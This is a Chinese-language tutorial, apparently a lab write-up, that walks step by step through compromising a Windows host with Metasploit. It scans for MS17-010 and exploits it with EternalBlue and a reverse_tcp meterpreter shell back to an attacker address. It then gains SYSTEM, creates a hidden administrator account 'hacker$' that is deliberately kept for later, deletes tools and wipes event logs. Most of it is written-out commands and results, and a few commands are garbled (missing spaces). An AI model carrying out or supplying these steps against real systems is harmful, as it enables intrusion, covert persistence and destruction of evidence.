




## 利用MSF工具,对windows进行入侵并清除痕迹

在终端中执行命令`msfconsole`，进入MSF控制台

MSF控制台（4）执行命令`search MS17-010`，搜索MS17-010漏洞相关模块。执行命令`use auxiliary/scanner/smb/smb_ms17_010`，查询目标主机是否包含MS17-010漏洞。执行命令`setrhost 192.168.1.13`，设置目标主机地址。执行命令`run`，进行攻击。根据查询结果可知，该目标主机包含MS17-010漏洞。

执行命令back，返回msf平台。执行命令`use exploit/windows/smb/ms17_010_eternalblue`，调用该漏洞利用模块进行攻击。命令执行后，提示符发生改变，如图5所示。

执行`showpayloads`命令，查看当前漏洞利用模块下可用的所有payload，并找到`windows/x64/meterpreter`，如图6所示。图6：显示设置的参数（6）执行命令`set payload windows/x64/meterpreter/reverse_tcp`、`setrhost 192.168.1.13`、`set lhost 192.168.1.16`，再执行命令`showoptions`，查看是否设置正确。已正确设置为目标服务器的IP地址，图7所示。

查看所有选项没问题后，执行命令`run`，进行shell反弹，执行成功后提示符会变为`meterpreter`，如图8所示。图8：成功获取shell（8）MSF发动攻击成功后会获取到目标主机的shell，为了验证该shell是目标主机的IP地址，可以执行命令`ipconfig`，查询IP地址，查询结果为`192.168.1.13`，如图9所示。目标主机的ip地址为`192.168.1.13`，如图10所示，对比结果一致。

执行命令shell，进入目标主机命令提示符中，至此证明成功拿到了目标主机的shell。执行命令whoami，查看当前用户权限。当前用户为系统权限，如图11所示。

获取到目标主机系统权限后对目标主机发动攻击，执行命令`net user hacker$ /add`，创建隐藏账户hacker。执行命令`net localgroup administrators hacker$ /add`，将隐藏账户hacker加入administrator管理员组，让其拥有管理员权限，如图12所示。图12：创建隐藏账户并加入管理员组（11）执行命令net user hacker$ ，验证隐藏账户是否创建成功，如图13所示。图13：查看hacker$用户信息2.Metasploit清除Windows日志（1）在用MSF成功对目标进行了渗透之后，不要忘记清理渗透过程中遗留下的日志。若在渗透过程中添加了账号，需要执行【netuser 添加的用户名/delete】命令进行删除；本次实验添加了隐藏用户（不易被发现），后续需要使用，所以不进行删除。（2）执行命令`cd c:\`，切换到C盘根目录下，执行命令`rd/s /q c:\hack`，删除在渗透过程中预留的工具，再执行命令`dir`，进行验证，如图14所示，hack文件夹已被删除。

执行命令`exit`，退出目标服务器的shell，如图15所示。图15：退出shell（4）执行命令`runevent_manager –i`，查看日志及其配置信息，如图16所示。图16：查看日志信息（5）执行命令`clearev`，清除系统日志，可看见清除提示，清除了应用程序日志，如图17所示。
